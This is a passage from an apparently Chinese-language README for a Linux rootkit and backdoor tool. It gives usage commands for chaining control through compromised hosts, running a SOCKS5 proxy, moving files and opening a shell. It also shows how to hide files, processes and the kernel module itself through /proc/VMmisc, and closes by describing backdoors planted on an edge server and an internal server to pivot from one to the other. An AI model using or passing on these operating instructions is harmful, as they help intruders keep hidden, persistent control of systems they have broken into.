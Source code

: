 ### 使用示例

```bash
# 串联连接（通过A控制B）
callrk 127.0.0.1:22 pass

# 退出当前串联
exitrk

# 启动SOCKS5代理
socks5 5555

# 关闭代理
stopsk5

# 上传文件
upload /tmp/6666 /tmp/7777

# 下载文件
download /tmp/6666 /tmp/8888

# 启动shell
shell

# 退出shell
exit
```

### 内核模块控制

```bash
# 隐藏文件/目录 222
echo "+f222" > /proc/VMmisc

# 显示文件/目录 222
echo "-f222" > /proc/VMmisc

# 隐藏进程 666
echo "+p666" > /proc/VMmisc

# 显示进程 666
echo "-p666" > /proc/VMmisc

# 显示模块（取消隐藏）
echo "dm" > /proc/VMmisc
```

## 特殊功能

### 串联功能
如控制边缘机器A，通过A转发给内网机器B，从而实现了通过A能控制B。通过端口转发，A B两台服务器同时植入后门，可通过A转发到B的控制端口。连接器连接A转发出来的端口，从而连接到B。
